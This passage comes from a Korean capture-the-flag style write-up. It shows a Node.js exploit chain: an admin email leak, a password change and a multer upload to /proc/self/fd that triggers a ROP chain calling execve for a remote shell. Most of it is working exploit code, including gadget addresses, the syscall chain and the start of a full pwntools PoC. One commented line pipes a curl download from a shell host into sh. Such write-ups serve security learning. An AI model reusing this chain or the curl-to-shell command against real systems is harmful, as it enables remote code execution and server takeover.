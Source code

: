 ```python
            # *gadget_create_string(argv[2], f"curl {SHELL_HOST}:{SHELL_PORT}|sh"),
            #*gadget_create_string(argv[2], f"sleep 100"),
            *gadget_create_string(argv[2], f"touch /tmp/pwned"),
            #! Warning: due to limited chain size, the command needs to be pretty short

            # Create argv[] array
            *gadget_write_at(argv_arr, argv[0]),
            *gadget_write_at(argv_arr + 8, argv[1]),
            *gadget_write_at(argv_arr + 16, argv[2]),

            # Run execve syscall
            POP_RAX,
            constants.SYS_execve,
            POP_RDI,
            argv[0],
            POP_RSI,
            argv_arr,
            POP_RDX,
            0,
            SYSCALL,
        ])

        return content

file_content = make_rop_chain()
with open('exploit.bin', 'wb') as f:
    f.write(file_content)
```

주의해야할 점은, exploit에 사용되는 주소가 모두 유효한 `utf-8`이여야 성공적으로 exploit이 가능하다. 해당 버전의 노드에서는 가젯이 모두 유효한 `utf-8`이었기에 따로 검사하는 로직을 추가하지 않았다.

## Solver

위의 익스플로잇 과정을 정리하면 다음과 같다.

1. admin email leak
2. admin password 변경
3. multer취약점을 활용하여 악성 exploit.bin을 `/proc/self/fd/{fd번호}`에 업로드
4. RCE 쉘 획득

아래는 Full Exploit PoC 코드이다.

```python
from pwn import *
import tqdm
import string
import requests
from urllib.parse import quote

def make_rop_chain():
    # All addresses must be valid UTF-8
    PIVOT_GADGET = 0x42b06b
    SIGNUM = 0x1289500  # must be equal to dword after PIVOT_GADGET
    RW_SECTION = 0x0000000006a9d000

    SYSCALL = 0x0000000000f339d8  # syscall
    POP_RAX = 0x0000000000ecb88a  # pop rax; ret
    POP_RDI = 0x00000000012273dd  # pop rdi; ret
    POP_RSI = 0x0000000000f66719  # pop rsi; ret
    POP_RDX = 0x000000000118de62  # pop rdx; ret
    MOV_GADGET = 0x0000000001478938  # mov qword ptr [rdi], rsi ; ret

    context.arch = "amd64"

```